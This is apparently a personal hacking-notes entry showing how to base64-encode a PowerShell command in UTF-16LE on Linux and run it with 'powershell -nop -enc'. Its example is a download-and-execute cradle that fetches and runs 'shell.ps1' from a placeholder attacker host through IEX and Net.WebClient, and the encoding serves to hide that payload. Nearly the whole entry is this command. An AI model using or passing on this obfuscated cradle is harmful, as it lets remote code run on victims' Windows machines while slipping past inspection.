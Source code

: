 # powershell encode commands as base64 with windows wide char strings in linux
```bash
echo -n "IEX(New-Object Net.WebClient).downloadString('http://$ATTACKER/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0
```

Target:
```
powershell -nop -enc <BASE64_ENCODED_PAYLOAD>
```

# References
- [20221003150730](/zet/20221003150730/README.md) powershell
- ~/kb/hacking/commands/encode-powershell-base64-windows.md

Tags:
    #assorted #command #hacking #windows #encode
